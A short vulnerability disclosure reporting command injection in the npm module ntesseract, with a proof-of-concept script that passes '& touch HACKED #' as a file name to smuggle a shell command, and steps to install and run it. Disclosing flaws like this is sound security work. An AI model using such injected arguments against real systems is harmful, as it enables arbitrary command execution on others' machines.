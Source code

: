 # Description

Command Injection in ntesseract

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var ntesseract =require("ntesseract");
ntesseract.process("& touch HACKED #","",function(){});
```

2. Execute the following commands in terminal:

```
npm i ntesseract # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
